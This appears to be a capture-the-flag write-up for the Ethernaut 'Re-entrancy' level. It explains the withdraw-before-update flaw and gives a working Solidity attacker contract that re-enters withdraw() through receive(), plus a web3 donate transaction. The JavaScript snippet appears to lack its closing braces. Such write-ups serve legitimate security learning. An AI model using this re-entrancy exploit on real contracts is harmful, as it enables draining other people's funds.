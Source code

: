 # Level 10: [Re-entrancy](https://ethernaut.openzeppelin.com/level/0x573eAaf1C1c2521e671534FAA525fAAf0894eCEb)

## Level objectives:
1. Drain the contract.

## Analysis (lol)
- Classic re-entrancy vulnerability.
```sol
if(balances[msg.sender] >= _amount) {
  (bool result,) = msg.sender.call{value:_amount}("");
  ...
  balances[msg.sender] -= _amount;
```
- In withdraw(), the contract sends us some ether before changing our balance in the contract.
- So before the contract can change the balance[msg.sender], we call withdraw again.
- Do so using the fallback receive() function of our contract.

## Steps:

```sol
//SPDX-License-Identifier: MIT
pragma solidity ^0.8;

interface Reentrancy {
    function withdraw(uint _amount) external;
}

contract AttackReentrancy {
    Reentrancy victim = Reentrancy(0x671eA28bB06697f0de39616260Ed0fBE4b15602c);

    constructor() payable {}

    function attack() public {
        victim.withdraw(997790000300296);
    }

    receive() external payable {
        victim.withdraw(msg.value);
    }
}
```
- For the withdraw() to work, we need to send ether to the vuln contract using the donate function.
```js
web3.eth.sendTransaction({
  to: "0x671eA28bB06697f0de39616260Ed0fBE4b15602c",
  from: "0x599C5A4be2b87F0128b87Fea208DBE5AE41095e4",
  value: "997790000300296",
  data: web3.eth.abi.encodeFunctionCall({
    name: "donate",
    type: "function",
    inputs: [{
      type: "address",
      name: "_to"
    }]
  }, ["0xBaC5b975FF516ac9d3a88a20A6820A3BeD430e28"])
```
- Also, set high gas when attacking.
